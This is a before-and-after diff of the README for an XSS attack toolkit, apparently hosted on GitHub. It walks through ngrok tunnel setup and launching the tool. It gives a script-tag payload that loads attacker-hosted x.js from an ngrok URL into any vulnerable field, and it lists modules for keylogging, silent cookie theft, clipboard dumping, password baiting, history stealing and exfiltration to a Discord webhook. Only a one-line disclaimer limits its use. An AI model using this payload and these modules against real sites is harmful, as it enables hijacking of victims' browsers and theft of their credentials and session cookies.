

Before and after one commit to ekomsSavior/XSS-BABE, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -56,9 +62,9 @@ sudo mv ngrok /usr/local/bin/
 
 ##  Ngrok Setup
 
-1. Sign up at https://ngrok.com/signup
+1. Sign up: https://ngrok.com/signup
 2. Get your auth token: https://dashboard.ngrok.com/get-started/setup
-3. Add token:
+3. Add it to your config:
 
 ```bash
 ngrok config add-authtoken YOUR_TOKEN_HERE
@@ -72,58 +78,63 @@ ngrok config add-authtoken YOUR_TOKEN_HERE
 python3 xss_babe_cli.py
 ```
 
-### What It Does:
-- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
-- Auto-launches the Flask server and Ngrok
-- Injects `x.js` loader into your payload
-- Displays a live menu of attack modules
-- Logs all browser events and saves session results in `sessions/`
+### What Happens:
+
+- You enter a vulnerable XSS URL (e.g. `https://vuln.site/?q=`)
+- Flask server and Ngrok auto-launch
+- Payload is generated with the hosted `x.js`
+- CLI menu opens with live attack modules
+- All session info is logged to `session_reports/`
 
 ---
 
 ##  Example Payload
 
-Use the Ngrok URL + this payload:
+Replace `YOUR_NGROK_URL` with the tunnel shown in the CLI:
 
 ```html
 <script src="https://YOUR_NGROK_URL/static/x.js"></script>
 ```
 
----
-
-##  Modules List
-
-| Module            | Description                                      |
-|-------------------|--------------------------------------------------|
-| keylogger         | Records keystrokes in real time                  |
-| fake_login        | Displays fake login form for credential capture  |
-| clipboard         | Dumps contents of the victim’s clipboard         |
-| auto_cookie_steal | Extracts document cookies silently               |
-| browser_history   | Reads browser history if accessible              |
-| download_bait     | Triggers fake file downloads (ZIP/PDF/etc)       |
-| fingerprint       | Collects user-agent, screen size, timezone       |
-| screenshot        | Captures visual screenshot using HTML2Canvas     |
-| recon             | Loads iframe ports and resources for open recon  |
-| cross_tab_spy     | Detects and tracks multiple open tabs            |
+Paste this into any vulnerable parameter, form, or field you control.
 
 ---
 
-##  Logs and Reporting
+##  Attack Modules
 
-All session output (payloads used, timestamps, logs) are saved to:
-
-```
-sessions/YYYY-MM-DD-HHMMSS.txt
-```
+| Module                   | Description                                         |
+|--------------------------|-----------------------------------------------------|
+| keylogger                | Records keystrokes live from the victim             |
+| clipboard                | Dumps clipboard contents                            |
+| auto_cookie_steal        | Steals document cookies silently                    |
+| discord_logger           | Sends logs to Discord webhook (edit inside script)  |
+| fake_download            | Triggers fake file downloads (ZIP, PDF, etc.)       |
+| password_bait            | Displays bait input field to trap saved passwords   |
+| history_stealer          | Dumps limited browsing history if accessible        |
+| cross_tab_messaging_spy  | Tracks multiple browser tabs or windows             |
 
 ---
 
-##  Stay Ethical
+##  Session Logs
 
-Use XSS Babe only in lab environments or on targets you own or have permission to test.
+All payloads and events are saved to:
+
+```
+session_reports/YYYY-MM-DD-HHMMSS.txt
+```
+
+This includes:
+- Target URL
+- Payload used
+- Ngrok tunnel
+- Timestamp
 
 ---
 
-##  Author
+## Stay Ethical
 
-Developed by [ekomsSavior](https://github.com/ekomsSavior)
+Never deploy on unauthorized systems.
+
+---
+
+##  Author by [ekomsSavior](https://github.com/ekomsSavior) 🖤
````
Also changed, not shown: other parts of README.md (+24 -18 lines).
